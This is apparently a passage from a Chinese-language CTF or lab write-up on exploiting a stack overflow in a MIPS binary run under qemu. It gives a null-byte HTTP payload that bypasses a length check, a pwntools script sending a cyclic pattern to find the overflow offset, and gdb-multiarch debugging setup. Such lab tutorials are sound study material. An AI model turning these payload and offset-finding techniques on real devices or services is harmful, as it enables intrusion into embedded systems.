 ```
"GET %\x00X" + "AAAAAAAAAAAAAAAAAAA" + "\x00"
```
* 第一个\x00 即可绕过长度校验 ，url长度为1 
* 将\x00 放在 % 之后 src+=3  跳过 while(*src) 的校验

以上两条构成栈溢出 

## 探测偏移
编写exp

```
from pwn import *
context.update(os="linux",bits = "32",arch="mips",endian="little",terminal=["tmux","splitw","-h"])
p = process(["/usr/bin/qemu-mipsel-static","-g","1234 ","./vuln"])
p2 = "GET %\x00X"+cyclic(1000)
p.sendline(p2)
p.interactive()
```
运行gdb
```
root@ubuntu:# gdb-multiarch -x ./gdbsc ca^C
root@ubuntu:# cat gdbsc
set endian little
set arch mips
target remote 127.0.0.1:1234
b *0x0400BB8
```
![图片](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/MIPS101/S1ndLw79GT0N319r.png) 
